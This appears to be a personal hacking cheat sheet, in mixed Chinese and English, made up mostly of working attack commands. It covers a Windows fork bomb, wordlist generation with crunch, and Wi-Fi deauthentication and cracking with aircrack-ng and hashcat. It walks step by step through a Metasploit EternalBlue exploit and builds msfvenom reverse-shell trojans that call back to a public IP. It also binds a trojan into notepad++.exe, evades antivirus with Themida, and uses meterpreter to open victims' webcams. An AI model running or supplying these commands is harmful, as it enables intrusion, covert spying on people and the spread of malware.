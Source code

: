 # 死机脚本

```
%0| %0|
```




# crunch 


```
crunch <min-len> <max-len> [<charset string>] [options]
crunch 密码最小长度 密码最大长度 [字符集] [命令选项] 


crunch 6 6 0123456789 -o start  


-b 1mb 按大小分割字典文件。
-c 100 按行数分割字典文件
-d 2 # 同意字符能够连贯出现的数量。比如11X11X

	crunch 6 6 0123456789 -d 2 # 生成6位数，由0到9位数字组成的，同一字符最多连续出现2次的字典。 

-f /usr/share/crunch/charset.lst lalpha-sv # 使用定义好的字符集

	crunch 4 4 -f /usr/share/crunch/charset.lst numeric -o 1.txt # 使用数字的字符集去生成4位数的字典。

-p 1234567890 
	无重复字符，注意-p必须是最后一个参数，最大最小字符失效但必须有，与-s、参数不兼容。
	crunch 1 1 -p abc # 生成abc的组合的字典 
	
-s 999 # 指定起始点(start)
	crunch 5 5 0123456789 -s 99990 # 生成的字典中是以99990为初始点的。 
	
-q 1.txt # 读取文件中每行内容作为基本字符，以排列组合的方式生成字典
	crunch 1 1 -q 1.txt # 以文件中每行内容作为基本字符，以排列组合的方式生成字典，最大最小字符失效但必须有 


```


#  hashcat使用方法


官网，下载编译好的版本
在cmd下用命令执行




ex：
hashcat -m 22000 28004_1684405214.hc22000 english.txt




warning 转换为支持的模式，官网提供工具，或者自己想办法转化
28004_1684405214.hc22000


ref



http://www.xuji.pro/%E7%94%A8hashcat%E6%AF%8F%E7%A7%92%E8%AE%A1%E7%AE%971-4%E4%BA%BF%E4%B8%AA%E5%AF%86%E7%A0%81%EF%BC%8C%E7%A0%B4%E8%A7%A3%E9%9A%94%E5%A3%81wifi%E5%AF%86%E7%A0%81/










# airmon-ng



airmon-ng start wlan0

ifconfig



airodump-ng wlan0mon





airodump-ng -w getter -c 2 --bssid  00:EF:34:DE:B2:12  wlan0mon -ignore-nefative-oneaa



//crack

aireplay-ng -0 2 -a  00:EF:34:DE:B2:12  -c DE:BD:54:B0:30:A9 wlan0mon






aircrack-ng -w /usr/share/wordlists/rockyou.txt (.ivs|.cap)





# msf

## the example of ms17010 :eternal blue

1. first use `msfconsole` to open msf
 
2. you choose an virus

we use `ms17_010` as an example ,you can get three kind of ms17010

```
 #Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
```
3. you can use
`
use 0 
or use xploit/windows/smb/ms17_010_eternalblue
`
to open this modular:模块

4. then you need configure this modular 
`show options`
you can see:
```
odule options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasp
                                             loit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication.
                                              Only affects Windows Server 2008 R2, Windows 7, Windows
                                              Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Onl
                                             y affects Windows Server 2008 R2, Windows 7, Windows Emb
                                             edded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects
                                             Windows Server 2008 R2, Windows 7, Windows Embedded Stan
                                             dard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.105    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```
the required that marked with yes is what you must configure
but most of them have a default value so you needn't configure it 

5. configure
`set RHOSTS 192.168.1.133`
or for a section 
`set RHOSTS 192.168.0.0-254`

6. run 
`run`

7. if the aim pc have loop hole 
you can get :
`meterpreter` as a new console
you get the windows cmd you want
you can use `help` in this console to get information
use the instruction in help you can control one's camera or mrcrophone




















# msfvenom 远程木马 基础




msfconsole

use exploit/multi/handler



options

	查看设置
	or show options

set payload windows/x64/meterpreter/reverse_tcp
set lhost 8.134.64.48
set lport 444
run


msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=8.134.64.48 lport=444 -f exe -o msf.exe

	ps: you can choose different options to diferent system::windows osx or android ,also diferent executable file::exe or apk



meterpreter                  

	means that you have controled target computer

## 例子：开启摄像头

webcam_list 查看是否有摄像头
webcam_stream 打开摄像头查看视频7



只能在内网环境下
1. 如果你要外网渗透的话，要反向代理或者是配置内网穿透
2. 或者用有外网ip的服务器








# 远程木马 绕过杀毒软件

## 捆绑
msfvenom -p windows/x64/meterpreter/reverse_top lhost=192.168.0.136 lport=9999 -f exe -x notepad++.exe -o notepad++2.exe


## themida
套壳 之后免火绒查杀



# seeker 苹果定位